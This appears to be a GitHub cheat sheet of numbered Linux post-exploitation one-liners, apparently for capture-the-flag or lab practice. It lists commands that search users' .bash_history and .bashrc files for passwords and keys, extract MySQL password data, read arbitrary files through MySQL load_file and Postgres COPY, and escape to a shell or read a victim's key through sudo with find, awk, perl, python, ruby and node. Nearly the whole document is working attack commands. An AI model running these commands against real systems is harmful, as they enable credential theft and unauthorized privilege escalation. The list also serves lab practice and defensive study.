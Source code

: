 EX: XXXX | <b>XXXX</b> (XXXX) </br>

00 - Searching all the files named .bash_history in the /home directory | <b>find /home -name .bash_history</b> (.bash_history cmds used) </br></br>
01 - Searching PATERN "key" in all files (-H show the file/s matched) | <b>find /home -name .bashrc -exec grep -H key {} \\;</b> (.bashrc set alias by user) </br></br>
02 - Searching PATERN "export" without GCC_COLORS in all files (-H show the file/s matched) | <b>find /home -name .bashrc -exec grep -H export {} \\;
 grep -v GCC_COLORS</b> (.bashrc set alias by user) </br></br>
03 - Searching PATERN "passwd" in all .bash_history (-A print NUM lines of trailing context) | <b>find /home -name .bash_history -exec grep -A 1 '^passwd' {} \\;</b></br></br>
04 - Unencrypting file with openssl | <b> openssl aes-256-cbc -d -in backup.tgz.enc -out decode.tar.gz</b> (tar -zxvf decode.tar.gz) </br></br>
05 - Mysql root password | <b>strings /var/lib/mysql/mysql/user.MYD</b> (2 passwords) </br></br>
06 - Mysql load files | <b>select load_file('/var/lib/mysql-files/key.txt');</b></br></br>
07 - Postgres load files:</br>
 CREATE TABLE demo(t text);</br>
 COPY demo from '[FILENAME]';</br>
 SELECT * FROM demo;</br></br>
 08 - SUDO find: sudo -u victim /usr/bin/find . -exec cat /home/victim/key.txt {} \;</br></br>
 09 - SUDO awk: sudo -u victim /usr/bin/awk 'BEGIN {system("/bin/bash")}';</br></br>
 10 - SUDO perl: sudo -u victim /usr/bin/perl -e 'exec "/bin/sh";'</br></br>
 11 - SUDO python: sudo -u victim /usr/bin/python -c 'import os; os.system("/bin/sh")'</br></br>
 12 - SUDO ruby: sudo -u victim /usr/bin/ruby -e 'exec "/bin/sh"'</br></br>
 13 - SUDO node: sudo -u victim /usr/local/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'</br></br>
 

